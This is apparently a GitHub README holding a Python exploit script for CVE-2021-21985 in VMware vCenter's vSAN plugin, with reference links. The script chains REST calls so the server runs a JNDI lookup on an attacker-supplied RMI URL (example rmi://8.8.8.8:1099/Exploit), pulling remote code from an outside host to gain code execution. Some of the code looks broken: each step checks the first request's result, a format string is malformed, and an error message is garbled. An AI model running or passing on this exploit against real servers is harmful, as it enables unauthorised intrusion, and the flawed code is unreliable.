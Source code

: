 <languages   />

Screenshot
----------

![](Twitter_E3CB24AUUAEl1_8.jpg "Twitter_E3CB24AUUAEl1_8.jpg")

EXP
---

    import requests
    import sys
    import json
    def send_request(host,uri,json):
        try:
            req = requests.post(url=host+baseuri+uri,json=json,headers=headers,verify=False)
            return req.text
        except:
            return False
    def check_false(request):
        if request ==False or 'result' not in request:
            print("[*] No Vuln!")
            return True
    if __name__ == '__main__':
        if len(sys.argv) < 2:
            print('''python3 cve-2021-21985.py https://host rmi://8.8.8.8:1099/Exploit''')
            sys.exit()
        host = sys.argv[1]
        payload = sys.argv[2]
        baseuri = "ui/h5-vsan/rest/proxy/service/&vsanQueryUtil_setDataService"
        uris = ["/setTargetObject", "/setStaticMethod", "/setTargetMethod", "/setArguments", "/prepare", "/invoke"]
        headers = {'Content-Type': 'application/json', "User-Agent": "pentest"}
        stage_setTargetObject = json.loads('{"methodInput":[null]}')
        stage_setStaticMethod = json.loads('{"methodInput":["javax.naming.InitialContext.doLookup"]}')
        stage_setTargetMethod = json.loads('{"methodInput":["doLookup"]}')
        stage_setArguments = json.loads('{"methodInput":[["%s"|"%s"]]}'%payload)
        stage_prepare = json.loads('{"methodInput":[]}')
        print("[*] start init TargetObject")
        # init TargetObject
        init_request  = send_request(host,uris[0],json=stage_setTargetObject)
        if check_false(init_request):
            print("[*] init failed!")
            exit()
        # Step2 setStaticMethod
        StaticMethod = send_request(host,uris[1],json=stage_setStaticMethod)
        if check_false(init_request):
            print("[*] StaticMethod init failed!")
            exit()
        # Step3 setTargetMethod
        StaticMethod = send_request(host,uris[2],json=stage_setTargetMethod)
        if check_false(init_request):
            print("[*] setTarget Method failed!")
            exit()
        # Step4 setArguments
        # print(stage_setArguments)
        setArguments = send_request(host,uris[3],json=stage_setArguments)
        if check_false(init_request):
            print("[*] setArguments failstage_setArgumentsed!")
            exit()
        # Step5 prepare
        setArguments = send_request(host,uris[4],json=stage_prepare)
        if check_false(init_request):
            print("[*] stage_prepare failed!")
            exit()
        # Step6 invoke
        setArguments = send_request(host,uris[5],json=stage_prepare)
        if check_false(init_request):
            print("[*] invoke failed!")
            exit()

Referenz
--------

<https://github.com/xnianq/cve-2021-21985_exp/>

<https://twitter.com/_0xf4n9x_?s=21>